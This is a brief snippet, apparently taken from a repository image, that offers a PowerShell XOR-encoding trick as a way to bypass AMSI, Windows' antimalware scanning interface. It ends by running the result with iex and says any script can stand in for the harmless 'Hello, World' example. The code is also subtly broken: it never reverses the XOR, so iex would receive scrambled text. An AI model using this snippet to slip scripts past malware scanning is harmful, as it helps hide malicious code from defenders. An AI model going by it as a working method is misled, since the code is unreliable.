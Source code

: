XOR a string with a certain key to bypass AMSI. 
The key can be any arbitrary value, and the string can be the PowerShell command / script.

```powershell
$script = "Write-Output 'Hello, World!'"
$key = 0x55
$encoded = [System.Text.Encoding]::Unicode.GetBytes($script)
for ($i = 0; $i -lt $encoded.Length; $i++) {
    $encoded[$i] = $encoded[$i] -bxor $key
}
$decoded = [System.Text.Encoding]::Unicode.GetString($encoded)
iex $decoded
```
